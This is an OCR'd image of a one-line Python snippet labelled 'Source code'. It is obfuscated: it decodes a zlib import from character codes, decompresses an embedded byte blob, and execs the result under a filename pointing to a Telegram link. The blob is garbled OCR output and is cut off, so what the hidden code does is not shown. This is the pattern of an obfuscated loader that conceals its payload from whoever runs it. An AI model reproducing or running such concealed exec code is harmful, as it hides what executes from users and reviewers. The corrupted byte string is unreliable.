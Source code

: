 exec((lambda _____, ______ : ______(eval((lambda ____,__,_ : ____.join([_(___) for ___ in __]))('',[95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 34, 122, 108, 105, 98, 34, 41, 46, 100, 101, 99, 111, 109, 112, 114, 101, 115, 115],chr))(_____),"<https://t.me/TT_RQ","exec"))(b'x\x9cT]\t[\xd5\xcc\xd2\xfc+\x82\x8a\xc8\x9a\xc9\xc9\x8a\x08\xa2\xbc(\x82\x82\xc8"\x1a\x81L\x16E\x10Ye\xd5\xdf\xfe\x9d\xaa\xae\xe0\xfd\xeesyU8$\xb3\xf4R]\xdd\xd3\xd3\\5\xd5\xf0\xf0a\xf9\xd3\xd7\xe5\x83]\xfco\xcc\xfe\xd8}0\xa5\xbf\x0c7\xbf\xcb\xc3\xff\xf7\x991\xfc_?\x9f\xf8\xf1k\xffh\xf8\xcb\xeep\xff\xefO\x1f\xb4\xbfN\xf1\xdd\x07\xfbG\xfd?\xbe>}:\xfc\xe4\xc9\xd8\x97<\x1e{\x80/\x17\xf0?y\xff?.\xc4\x7f\x1c\xfe\x13\xe1?\x89}\x02_Q0\xf6\xa0\x87o\x86\xf8L\x90\xe9\xf7\xf2\xcc\xbe\x1d\xf5\x7f)J\xf0\xcd\x00\xff\xe9\xff+\xcf\xbbg\xfd\xcf\xa3#\xfd\xd0\xb9\x98\xff\xf9:V}?\xed\x8f\x873z:68}yy9q\xfd\xeb\xe2\xfc\xc27\x13\xd5\xaf\x9f\x93\xd5\xe4\xf1\xf5\xf9\xf7_G\x87\xfbm386\xd8\xf4\xd7e\xb0\xffy\xff\xe4\xaa\xb8\xca\xab\xf5\xaf\xc5\xf9\x97\xe2\xaa\x8e\x8b\xab\xaa\xea\xff\x19\x16Wm5Z\\e\x81}5U]\\\xf9\xf0}q\xe5\xa2\xfe\xe7\x83\xaf\xf8K\xda\xffO\x80\xafh\xac\xff\xbd^\xff\x13A\xff\xf7\xaa\xac\xff\xc9\xa6\xb8*\xdb\xfe3\xca\xfe\xb3|\xff\xd7\xfb\x7f/\xf3\xfe\x9f\xfd\x7f\x07\x8d\xfd\xbcMog\xfa?\xc5O\xfcq\xff\xc1y\xd2\xff\xea\x7f&\xef\xff\xaci\xec\xb3\xf8\xca\xfb_\xae\xff\xef\xb4\xd5s\xfa\xcf\xcb\x1c\xbe\xaa\xcb\xb5\xfe\x03\xfa\xbfV6\x07\xfd\xcf\xf4\x87\xd3\xb6\xe9 \xfe\xdb\x7fC\xcf\xde\xdc\xc6\x0b\xf8F\x7f\\M\xf0\xab\xff\xad\xfe